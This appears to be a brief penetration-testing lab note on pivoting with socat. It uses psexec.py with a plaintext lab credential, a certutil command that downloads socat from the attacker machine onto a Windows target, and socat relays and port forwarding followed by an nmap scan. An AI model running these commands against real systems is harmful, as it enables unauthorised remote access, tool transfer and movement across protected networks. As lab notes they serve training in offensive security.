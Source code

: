 Kali => Punisher => Spiderman

| Kali | Punisher | Spiderman | 
| --- | --- | --- |
| 192.168.111.133 | 192.168.111.138 / 10.10.10.129 | 10.10.10.128

```bash - kali
psexec.py marvel.local/fcastle:Password1@192.168.111.138
```

```command prompt - target
cd C:\Users\fcastle\Documents
```

```command prompt - target
certutil -urlcache -split -f http://192.168.111.133/socatx64.exe
```

```command prompt - target
socatx64.exe tcp-l:8000 tcp:192.168.111.133:443 &
```


#### Local Port Forwarding
Say we wish to target local port 631
```bash - target
socat tcp-listen:9090,fork tcp:127.0.0.1:631 &
```

```bash - kali
nmap -sVC -p 9090 $TARGET
```


































































